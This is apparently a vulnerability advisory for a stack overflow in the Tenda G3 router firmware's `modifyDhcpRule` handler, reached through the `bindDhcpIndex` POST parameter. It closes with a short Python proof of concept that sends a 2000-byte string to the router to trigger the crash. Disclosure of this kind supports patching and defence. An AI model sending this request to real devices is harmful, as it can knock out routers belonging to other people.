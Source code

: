 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3107.html

## Affected version

G3 V15.11.0.17(9502)

## Vulnerability details

The Tenda G3 V15.11.0.17(9502) firmware has a stack overflow vulnerability in the `modifyDhcpRule` function. The `bindDhcpIndex` variable receives the `bindDhcpIndex` parameter from a POST request. However, since the user can control the input of `bindDhcpIndex `, the statement can cause a buffer overflow. The user-provided `bindDhcpIndex` can exceed the capacity of the `mibName` array, triggering this security vulnerability.

![image-20240417212710201](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417212710201.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/modifyDhcpRule"
payload = b"a"*2000

data = {
    	'bindDhcpIndex':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
